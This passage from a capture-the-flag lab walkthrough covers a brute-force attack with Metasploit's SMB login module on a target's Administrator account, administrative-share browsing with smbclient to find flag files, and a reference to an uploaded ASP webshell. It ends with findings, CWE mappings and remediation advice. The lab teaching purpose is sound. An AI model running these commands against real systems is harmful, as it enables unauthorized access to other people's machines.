In the web shell interface, the standard output of the executed Windows command (`type C:\flag2.txt`) was concatenated directly onto the line displaying the server's local IP address (`10.5.27.190`), producing `10.5.27.190aee247f5c45a41b58db53dc77d6b9263`. Separating the server's IP address reveals the standalone 32-character hexadecimal Flag 2 value:

```text
Extracted Flag 2: aee247f5c45a41b58db53dc77d6b9263
```

---

## 10. Network Pivoting to Target 2: SMB Brute-Forcing & Enumeration

Objective 3 instructed: *"By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag. (`target2.ine.local`)"*

Attention pivoted to the second host in the lab scope: `target2.ine.local`. Target 2 exposed the Server Message Block (SMB) service on port 445/tcp. Access to network shares was restricted and required authentication; anonymous or guest sessions were not permitted. Because administrative accounts often rely on predictable credentials, an online dictionary attack was conducted to obtain authenticated access for the local `Administrator` account.

### Step 11: Online SMB Brute-Force with Metasploit

**Metasploit Console Execution:**
```bash
msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set rhost target2.ine.local
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser administrator
msf6 auxiliary(scanner/smb/smb_login) > set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > set verbose false
msf6 auxiliary(scanner/smb/smb_login) > run
```

**Options Breakdown:**
- `auxiliary/scanner/smb/smb_login`: Metasploit module for testing SMB authentication across candidate credentials.
- `set rhost target2.ine.local`: Targets the second lab host.
- `set SMBUser administrator`: Focuses password guessing on the built-in local administrator account.
- `set pass_file .../unix_passwords.txt`: Leverages the provided password wordlist.
- `set verbose false`: Suppresses failure messages to highlight successful logons.

**Execution Output:**
```text
[+] 10.5.24.116:445       - 10.5.24.116:445 - Success: '.\administrator:[REDACTED]' Administrator
[*] target2.ine.local:445 - Scanned 1 of 1 hosts (100% complete)
[*] target2.ine.local:445 - Bruteforce completed, 1 credential was successful.
[*] target2.ine.local:445 - You can open an SMB session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```



*Credential Sanitization Note: The cracked password for user `administrator` on Target 2 has been redacted in the screenshot and replaced with `[REDACTED]` in documentation.*

**Result:** Metasploit cracked the `Administrator` password, revealing `.\administrator:[REDACTED]` against IP `10.5.24.116:445`.

---

### Step 12: SMB Share Enumeration with smbclient

With administrative credentials established on `target2.ine.local`, available SMB shares were enumerated.

**Command:**
```bash
smbclient -L target2.ine.local -U Administrator
```

**Execution Output:**
```text
Password for [WORKGROUP\Administrator]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Shared          Disk
        Shared2         Disk
        Shared3         Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to target2.ine.local failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```



**Shares Identified:**
- `ADMIN$`: Administrative share mapped to `%SystemRoot%` (`C:\Windows`).
- `C$`: Full administrative drive share mapped to `C:\`.
- `Shared`, `Shared2`, `Shared3`: Custom user shares.

---

## 11. Administrative Share Exploitation & Flags 3 & 4 Discovery (Target 2)

### Step 13: Accessing Administrative C$ Share & Flag 3 Identification

Using the compromised `Administrator` credentials, authenticated access was established to the default administrative root share `C$`.

> [!WARNING] Administrative Share Exposure Risk
> Default administrative shares (`C$`, `ADMIN$`) are built-in Windows administrative features that strictly require valid administrative credentials to access. They do not represent an authentication bypass or an inherent permission flaw in the operating system. However, when administrative accounts utilize weak, guessable credentials, exposing SMB port 445 across the network without firewall isolation presents a severe security risk: once authenticated, an attacker can traverse all physical volumes and inspect sensitive user profiles remotely.

**Command:**
```bash
smbclient //target2.ine.local/C$ -U administrator
```

**Interactive SMB Session:**
```text
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
smb: \> ls
  $Recycle.Bin                      DHS        0  Sat Nov  7 13:45:59 2020
  Boot                              DHS        0  Wed Sep  9 10:08:52 2020
  bootmgr                          AHSR   408692  Wed Sep  9 10:03:42 2020
  BOOTNXT                           AHS        1  Sat Sep 15 12:42:30 2018
  Documents and Settings          DHSrn        0  Wed Nov 14 21:40:15 2018
  EFI                                 D        0  Wed Nov 14 12:26:18 2018
  flag3.txt                           A       34  Tue Nov 17 20:28:41 2026
  pagefile.sys                      AHS 2013265920  Tue Nov 17 20:26:39 2026
  PerfLogs                            D        0  Wed May 13 23:28:09 2020
  Program Files                      DR        0  Sat Nov  7 13:17:23 2020
  Program Files (x86)                 D        0  Sat Nov  7 13:17:24 2020
  ProgramData                       DHn        0  Wed Jan  1 13:47:15 2025
  Recovery                         DHSn        0  Wed Jan  1 13:54:07 2025
  Shared                              D        0  Tue Dec 31 16:59:14 2024
  System Volume Information         DHS        0  Sat Nov  7 12:06:43 2020
  Users                              DR        0  Wed Jan  1 14:00:24 2025
  Utilities                           D        0  Sat Nov  7 13:19:05 2020
  Windows                             D        0  Wed Jan  1 13:50:49 2025

                7863807 blocks of size 4096. 3607672 blocks available
smb: \>
```



**Discovery:**
- `flag3.txt` (34 bytes) was located directly in the root of the `C$` administrative share on `target2.ine.local`.
- Fulfills **Objective 3**: Guessing SMB user credentials uncovered `flag3.txt`.

---

### Step 14: Navigating to Administrator Desktop & Flag 4 Identification

Objective 4 instructed: *"The Desktop directory might have what you're looking for. Enumerate its contents. (`target2.ine.local`)"*

From the active `smbclient` session on `//target2.ine.local/C$`, the file system path was traversed into the `Administrator` profile's Desktop directory.

**Interactive SMB Navigation:**
```text
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Tue Nov 17 20:28:41 2026
  ..                                 DR        0  Tue Nov 17 20:28:41 2026
  desktop.ini                       AHS      282  Wed Jan  1 14:00:35 2025
  flag4.txt                           A       34  Tue Nov 17 20:28:41 2026

                7863807 blocks of size 4096. 3607668 blocks available
smb: \Users\Administrator\Desktop\>
```



**Discovery:**
- `flag4.txt` (34 bytes) was located at `C:\Users\Administrator\Desktop\flag4.txt`.
- Fulfills **Objective 4**: The contents of the Administrator Desktop directory were enumerated, locating `flag4.txt`.

---

## 12. Flag Discovery and Verification

In accordance with strict portfolio verification standards, all flag artifacts and values are documented exactly as supported by the primary screenshot evidence:

| Flag Identifier | Target System & Location | Discovery & Exploitation Vector | Value / Hash Visible in Evidence | Evidence Source | Verification Status |
| :---: | :--- | :--- | :--- | :--- | :---: |
| **Flag 1** | `target1.ine.local`<br>`/webdav/flag1.txt` | Hydra HTTP brute force (`bob:[REDACTED]`) & DIRB WebDAV discovery | `flag1.txt` (34 bytes located; content not captured in screenshots) | Screenshots 06 & 09 | File discovered; content not captured. |
| **Flag 2** | `target1.ine.local`<br>`C:\flag2.txt` | cadaver ASP webshell upload & `type C:\flag2.txt` execution | `aee247f5c45a41b58db53dc77d6b9263` | Screenshot 12 | Content extracted and visually verified. |
| **Flag 3** | `target2.ine.local`<br>`\\target2.ine.local\C$\flag3.txt` | Metasploit `smb_login` (`administrator:[REDACTED]`) & `smbclient //target2.ine.local/C$` | `flag3.txt` (34 bytes located; content not captured in screenshots) | Screenshot 15 | File discovered; content not captured. |
| **Flag 4** | `target2.ine.local`<br>`C$\Users\Administrator\Desktop\flag4.txt` | Traversing to Administrator Desktop via `smbclient` | `flag4.txt` (34 bytes located; content not captured in screenshots) | Screenshot 16 | File discovered; content not captured. |

### Evidence-Based Verification Notes
- **Flag 2 (Content extracted and visually verified)**: The full 32-character hexadecimal MD5 value `aee247f5c45a41b58db53dc77d6b9263` was extracted using the Windows command `type C:\flag2.txt` executed through the deployed ASP webshell and is directly visible in Screenshot 12.
- **Flags 1, 3, and 4 (File discovered; content not captured)**: The physical files (`flag1.txt`, `flag3.txt`, and `flag4.txt`) were located on disk with file sizes of 34 bytes each (consistent with a 32-character hash plus CRLF line terminator `\r\n`), and their existence is visually confirmed in Screenshots 06, 09, 15, and 16. However, their plaintext contents were not dumped or displayed in the terminal during the recorded session. While the INE challenge dashboard ([`01-lab-overview.png`](file:///d:/cybersecurity-lab-walkthroughs/INE/ejpt/Host%20&%20Network%20Penetration%20Testing%20SystemHost%20Based%20Attacks/screenshots/01-lab-overview.png)) registers all 4 objectives as completed, strict documentation fidelity requires categorizing Flags 1, 3, and 4 as **File discovered; content not captured**. No unrendered flag values are claimed as extracted or verified.

---

## 13. Findings and Security Impact

### Summary Matrix

| ID | Vulnerability Finding | Affected Host & Port | Observed Evidence | Severity Rating |
| :---: | :--- | :--- | :--- | :---: |
| **VULN-01** | Weak HTTP Authentication Credentials (`bob`) | `target1.ine.local` (80/tcp) | Hydra cracked password in 7 seconds using standard wordlist | **Medium** |
| **VULN-02** | Authenticated WebDAV File Upload with Script Execution | `target1.ine.local` (80/tcp) | Authenticated user `bob` uploaded `.asp` files; IIS executed `webshell.asp`, granting arbitrary command execution | **High** |
| **VULN-03** | Web Directory Browsing Enabled on WebDAV Virtual Directory | `target1.ine.local` (80/tcp) | DIRB detected `Directory IS LISTABLE` on `/webdav/` during authenticated scan, exposing internal files including `flag1.txt` | **Low** |
| **VULN-04** | Weak Local Administrator Password over SMB | `target2.ine.local` (445/tcp) | Metasploit `smb_login` cracked Administrator password in under 2 minutes | **High** |
| **VULN-05 / OBS-01** | Post-Authentication File Access via Administrative Share (`C$`) | `target2.ine.local` (445/tcp) | Authenticated `Administrator` mounted default `C$` share over port 445; standard Windows behavior following credential compromise | **Attack-Path Observation** |

---

### Detailed Findings Breakdown

#### VULN-01: Weak HTTP Authentication Credentials (`bob`)
- **CWE Identifier**: [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- **Severity Rating**: **Medium**
- **Affected System**: `target1.ine.local` (HTTP Port 80).
- **Observed Evidence**: Hydra cracked user `bob`'s password in ~7 seconds across 1,010 attempts using `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`. No effective rate limiting was observed during the recorded attempts.
- **Potential Impact**: Grants authenticated access to restricted web resources (such as `/webdav/`), providing the initial entry point for further attacks.
- **Remediation**: Enforce strong password complexity policies (minimum length, mixed character sets) and implement account lockout mechanisms or exponential backoff after multiple failed logon attempts.

#### VULN-02: Authenticated WebDAV File Upload with Script Execution
- **CWE Identifier**: [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html) & [CWE-732: Incorrect Permission Assignment](https://cwe.mitre.org/data/definitions/732.html)
- **Severity Rating**: **High**
- **Affected System**: `target1.ine.local` (IIS 10.0 WebDAV module).
- **Confirmed Evidence**: Authenticated access using user `bob`'s valid credentials permitted HTTP `PUT` and `MKCOL` requests on `/webdav/`. `davtest` verified that `.asp` and `.aspx` file uploads succeeded and executed under IIS (with `.aspx` execution actively tested in Screenshot 07 and `.asp` execution confirmed in the completed summary of Screenshot 08). Utilizing `cadaver`, `/usr/share/webshells/asp/webshell.asp` was uploaded, enabling arbitrary command execution (`dir c:\`, `type C:\flag2.txt`). Output from the webshell explicitly confirms that commands ran under the local user/service account context (`EC2AMAZ-JVD17HK\bob`). The screenshot evidence strictly documents command execution within this unprivileged web user context; no privilege escalation to `NT AUTHORITY\SYSTEM` was attempted, observed, or proven in the lab evidence.
- **Potential Impact**: Confirmed remote command execution allows an adversary to interact with the underlying operating system and discover files across authorized drives within the user's permissions. In an enterprise environment, arbitrary command execution presents a high security risk because an attacker with shell access could potentially investigate local misconfigurations or seek privilege escalation vectors.
- **Remediation**:
  1. Disable WebDAV authoring rules if remote file authoring is not strictly required.
  2. If WebDAV is required, restrict write permissions (`PUT`, `MKCOL`) and configure the WebDAV virtual directory with **Read** access only, explicitly removing **Script** and **Execute** permissions in IIS Manager (`Handler Mappings`).
  3. Ensure upload directories do not allow server-side script execution.

#### VULN-03: Web Directory Browsing Enabled on WebDAV Virtual Directory
- **CWE Identifier**: [CWE-548: Exposure of Information Through Directory Listing](https://cwe.mitre.org/data/definitions/548.html)
- **Severity Rating**: **Low**
- **Affected System**: `target1.ine.local` (`/webdav/`).
- **Observed Evidence**: During the authenticated assessment, DIRB and Firefox revealed that directory browsing was enabled on `http://target1.ine.local/webdav/`, returning an auto-generated HTML directory listing that exposed `flag1.txt`, `readme.txt`, and `test.asp`. The evidence does not establish unauthenticated access to the WebDAV listing; directory browsing was observed in the context of valid credentials for user `bob`.
- **Potential Impact**: Allows authenticated users to easily enumerate file names, structure, and uploaded payloads without brute-force enumeration.
- **Remediation**: Disable **Directory Browsing** in IIS Manager for all web directories and virtual paths.

#### VULN-04: Weak Local Administrator Password over SMB
- **CWE Identifier**: [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html) & [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- **Severity Rating**: **High**
- **Affected System**: `target2.ine.local` (SMB Port 445).
- **Observed Evidence**: Metasploit's `auxiliary/scanner/smb/smb_login` module cracked the local `Administrator` password using a standard dictionary (`unix_passwords.txt`) in under 2 minutes. No effective rate limiting was observed during the recorded attempts.
- **Potential Impact**: Provides valid administrative credentials across the network, granting full administrative privileges on the target system.
- **Remediation**: Enforce robust passphrase policies for administrative accounts, utilize Microsoft Local Administrator Password Solution (LAPS) to randomize local administrator passwords across hosts, and restrict administrative logons.

#### VULN-05 / OBS-01: Post-Authentication File Access via Administrative Share (`C$`) (Attack-Path Observation)
- **Classification**: Attack-Path Observation (Standard Windows Administrative Functionality)
- **CWE Identifier**: None (Standard operating system functionality; no independent vulnerability identified)
- **Severity Rating**: **Attack-Path Observation**
- **Affected System**: `target2.ine.local` (SMB Port 445).
- **Technical Context**: Access to the `C$` share was accomplished using valid `Administrator` credentials cracked in VULN-04. The evidence does not demonstrate an independent share ACL flaw, permission misconfiguration, or authentication bypass; `C$` is a default hidden administrative share that functions normally by allowing local administrators full volume access. This finding is maintained as an attack-path observation documenting standard Windows administrative-share behavior after valid Administrator credentials were obtained.
- **Consequential Security Impact**: This observation documents the consequence of compromised administrative credentials. With valid Administrator credentials, the assessor accessed the default `C$` administrative share over SMB port 445 and located `C:\flag3.txt` and `C:\Users\Administrator\Desktop\flag4.txt`. The evidence does not establish an independent SMB network-exposure or share-permission vulnerability.
- **Remediation & Hardening**:
  1. Restrict SMB port 445 access at the network boundary and via host firewall rules to designated administrative jump hosts.
  2. Implement Microsoft LAPS to ensure local administrator passwords are not shared across hosts.
  3. Where remote administrative shares are not required, consider disabling administrative shares via registry policy.

---

## 14. Remediation Recommendations

### Tactical Defensive Measures

```text
+---------------------------------------------------------------------------------------------------+
|                                  PRIORITIZED REMEDIATION ROADMAP                                  |
+---------------------------------------------------------------------------------------------------+
| 1. Disable WebDAV Write/Execute Permissions on IIS:                                               |
|    - Remove WebDAV Authoring Rules for untrusted users in IIS Manager.                            |
|    - Strip 'Script' and 'Execute' permissions on all upload virtual directories.                  |
|                                                                                                   |
| 2. Enforce Credential Security Policies:                                                         |
|    - Implement LAPS (Local Administrator Password Solution) on target2.ine.local.                |
|    - Mandate 16+ character passphrases for all service and user accounts (bob, Administrator).   |
|    - Implement account lockout policies (e.g., 5 invalid attempts triggers 15-minute lockout).   |
|                                                                                                   |
| 3. Disable Directory Browsing Globally:                                                          |
|    - In IIS Manager, select the server root -> 'Directory Browsing' -> Click 'Disable'.          |
|                                                                                                   |
| 4. Network Segmentation & Firewalling:                                                           |
|    - Block inbound SMB (port 445/tcp) from untrusted subnets using Windows Defender Firewall.    |
|    - Restrict administrative shares (ADMIN$, C$) to authorized administrative bastions only.      |
+---------------------------------------------------------------------------------------------------+
```

---

## 15. Key Learning Outcomes

1. **Practical Online Password Brute-Forcing**:
   Demonstrated the speed and efficacy of Hydra and Metasploit against unhardened authentication endpoints. Without effective rate limiting or robust password requirements, standard dictionary attacks compromise weak accounts in seconds.

2. **WebDAV as an Exploitation Vector**:
   Demonstrated how WebDAV misconfigurations elevate what might seem like a simple file-sharing service into complete Remote Code Execution (RCE) on Windows IIS servers by combining HTTP `PUT` with Active Server Pages execution.

3. **Multi-Host Engagement & Network Pivoting**:
   Applied distinct attack methodologies tailored to different host roles: web/WebDAV exploitation against `target1` versus online SMB brute-force and administrative share traversal against `target2`.

4. **Post-Exploitation File Harvesting**:
   Demonstrated methodical host file system enumeration both through web-based command shells (`dir c:\`, `type C:\flag2.txt`) and administrative SMB client sessions (`smbclient //target2.ine.local/C$`).

---

## 16. Conclusion

The **Host & Network Penetration Testing: System-Host Based Attacks CTF 1** lab demonstrates practical host-based attack methodologies against Windows environments:
- **Target 1 (`target1.ine.local`):** Online credential brute-forcing against user `bob` allowed authenticated WebDAV file upload and arbitrary command execution (`dir c:\`, `type C:\flag2.txt`) operating under the unprivileged `bob` user context (without `NT AUTHORITY\SYSTEM` escalation).
- **Target 2 (`target2.ine.local`):** Online SMB password dictionary attack against user `Administrator` yielded valid administrative credentials, permitting authenticated access to the default `C$` administrative share and enumeration of the C$ root and Administrator Desktop locations.

All four challenge objectives were completed in the lab dashboard, Flag 2's content was extracted and visually verified, Flags 1, 3, and 4 files were located, and comprehensive defensive remediation strategies were established to mitigate each identified risk.
